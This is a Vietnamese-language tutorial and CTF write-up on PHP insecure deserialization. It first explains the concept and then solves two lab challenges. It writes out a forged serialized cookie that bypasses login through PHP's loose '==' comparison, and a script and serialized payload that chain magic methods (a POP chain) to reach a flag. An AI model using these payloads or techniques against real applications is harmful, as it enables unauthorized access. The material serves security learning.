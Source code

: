 # Insecure Deserialization

# Tổng quan

Serialization là quá trình chuyển đổi đối tượng hoặc dữ liệu thành định dạng khác ( gọi là serialized data) để dễ dàng lưu trữ và truyền tải.

Deserialization là quá trình ngược lại với serialization, từ serialized data khôi phục lại đối tượng hoặc cấu trúc dữ liệu ban đầu.

Insecure Deserialization là một lỗ hổng bảo mật xảy ra khi dữ liệu đã được serialize có thể bị kẻ tấn công kiểm soát. Khi ứng dụng tiến hành deserialize dữ liệu này mà không có kiểm tra hoặc xác thực an toàn, attacker có thể chèn payload độc hại vào, từ đó thực thi mã tùy ý, thay đổi logic của chương trình

## Root Cause

Attacker kiểm soát được dữ liệu khi unserialize

## Impact

Thay đổi logic hoạt động của chương trình ( thay đổi thuộc tính, class)

Tạo ra luồng mới của chương trình ( tận dụng magic method, POP Chain)

→ Tùy vào logic và các class có sẵn  mà có các ảnh hưởng khác nhau

# LAB

## **PHP - Serialization**

![image.png](Images/image.png)

Đăng nhập thử với tài khoản guest ( option autologin)

![image.png](Images/image%201.png)

Cookie được set thành 1 chuỗi lưu tên đăng nhập và mật khẩu

![image.png](Images/image%202.png)

Đoán được đây là serialized data của php.

Sửa username thành superadmin, nhưng vấn đề ở đây là mật khẩu.

![image.png](Images/image%203.png)

PHP có hai loại so sánh:

- `==`: so sánh **lỏng lẻo**, PHP sẽ **ép kiểu** nếu hai vế khác kiểu.
- `===`: so sánh **nghiêm ngặt**, yêu cầu cùng **kiểu dữ liệu và giá trị**.

Ví dụ: 

```php
if (true == "any_string") // true
if (false == 0)           // true
if (1 == "1abc")          // true
if ("0e123" == "0e456")   // true, vì cả 2 bị ép kiểu thành số mũ 0 (=> 0)
```

Trong code của ứng dụng, dùng so sánh `==` , nên ta có thể bypass bằng cách so sánh chuỗi  với giá trị boolean 

`if (true == '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec')`

PHP sẽ ép kiểu `string` thành boolean true 

⇒ `if (true == true)` ⇒ true

Payload: `a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}` (encode url)

## **PHP - Unserialize Pop Chain**

![image.png](Images/image%204.png)

Src code:

```php
<?php

$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}

?>
```

Flag nằm trong magic method `__destruct()` của class `GetMessage`
Muốn lấy được flag, phải thỏa **2 điều kiện:**

- Biến `$getflag` phải bằng `True`.
    - Biến này chỉ được set `True` khi hàm `__toString()` của class `WakyWaky` được gọi.
    - Mà `__toString()` sẽ được gọi khi object `WakyWaky` được dùng như 1 chuỗi.
    - `echo "[YOU]: ".$this->msg."<br>";`trong hàm `__wakeup`  sẽ gọi toString
- Biến `$receive` phải có giá trị = `"HelloBooooooy"`
    - Nếu gán `"HelloBooooooy"` ngay khi tạo object, thì `__construct()` của `GetMessage`sẽ check và `die` chương trình.
    - Nên giá trị `"HelloBooooooy"` chỉ có thể gán **sau khi object khởi tạo xong**

Script: 

```php
<?php
class GetMessage {
    public $receive;
    function __construct($receive) {
            $this->receive = $receive;
        }
    }

class WakyWaky {
    public $msg;
    function __construct($msg) {
            $this->msg = $msg;
        }
    }

$gmsg = new GetMessage('HelloBooooooy');
    
$waky1 = new WakyWaky($gmsg);
$waky2 = new WakyWaky($waky1);

echo serialize($waky2);
?>
```

`unserialize()` sẽ gọi `__wakeup()` của object `WakyWaky`.

Trong `__wakeup()`, code sẽ `echo "[YOU]: ".$this->msg;`→ PHP buộc phải ép `$this->msg` thành string.

`$this->msg` chính là `$waky1` — một object `WakyWaky`→ PHP gọi `__toString()` của `WakyWaky` → **set `$getflag = true`**.

Khi `__toString()` chạy, trong đó:

```php
return (new GetMessage($this->msg))->receive;
```

Tạo ra 1 object `GetMessage` với `$this->msg` (lúc này chính là `$gmsg`) truyền vào, nếu `$this->msg` là `GetMessage` chứa `'HelloBooooooy'` (object→ qua luôn.

Sau khi unserialize xong, PHP sẽ gọi `__destruct()` của `GetMessage`: nếu `$getflag == true` và `$receive == "HelloBooooooy"` → **flag được in ra**.

Serialized data:

```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```

![image.png](Images/image%205.png)